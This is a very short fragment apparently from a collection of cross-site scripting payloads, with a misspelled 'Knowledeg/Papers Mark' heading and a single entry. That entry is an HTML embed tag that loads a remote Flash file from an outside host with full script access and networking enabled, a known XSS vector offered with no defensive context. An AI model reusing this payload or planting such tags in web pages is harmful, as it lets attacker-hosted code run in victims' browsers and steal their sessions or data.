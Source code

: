 # XSS Payloads
--------------------------------------

>* # Knowledeg/Papers Mark
--------------------------------

>* <embed src="http://up.51xxs.com/users/public/1402767480_224122.swf" allownetworking="all" allowscriptaccess="always">
